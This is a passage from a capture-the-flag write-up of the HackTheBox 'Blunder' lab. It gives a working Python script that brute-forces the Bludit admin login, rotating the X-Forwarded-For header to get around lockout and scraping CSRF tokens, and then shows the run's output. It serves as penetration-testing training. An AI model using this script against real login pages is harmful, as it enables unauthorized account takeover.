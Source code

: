 My Wordlist is ready.

Here is the modified script.

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://10.10.10.191'
login_url = host + '/admin/'
username = 'fergus'
wordlist = []
passwd = open("pass","r").readlines()

for x in passwd:
    wordlist.append(x.strip("\n"))

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

Changes I did here is, I use the wordlist I created instead of the old one.

```bash
root@kali:~/CTF/HTB/Boxes/Blunder# python3 exploit.py 
[*] Trying: the
[*] Trying: Load
[*] Trying: Plugins
[*] Trying: and
[*] Trying: for
.
.
.

[*] Trying: fictional
[*] Trying: character
[*] Trying: RolandDeschain
```
